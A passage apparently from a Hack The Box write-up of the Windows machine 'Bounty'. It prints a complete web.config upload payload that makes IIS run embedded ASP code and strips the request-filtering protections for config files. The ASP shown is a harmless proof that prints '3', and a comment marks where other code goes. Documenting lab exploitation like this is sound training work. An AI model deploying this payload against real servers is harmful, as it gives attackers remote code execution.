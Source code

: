 ![Desktop View](/assets/img/htb/machines/windows/easy/bounty/search.png)

Uploading this file results in running ASP code on the target server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
```